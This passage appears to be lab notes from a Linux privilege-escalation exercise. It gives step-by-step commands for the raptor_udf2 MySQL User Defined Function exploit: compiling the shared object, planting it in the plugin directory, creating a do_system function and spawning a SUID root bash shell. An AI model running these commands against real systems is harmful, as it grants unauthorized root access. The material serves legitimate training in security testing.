 # User Defined functions (UDFs)
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

`cd /home/user/tools/mysql-udf`

Compile the raptor_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC   gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc   `

Connect to the MySQL service as the root user with a blank password:

`mysql -u root`  

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

`use mysql;   create table foo(line blob);   insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));   select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash   exit`

[[3.Weak file permissions - Readable -etc-shadow]]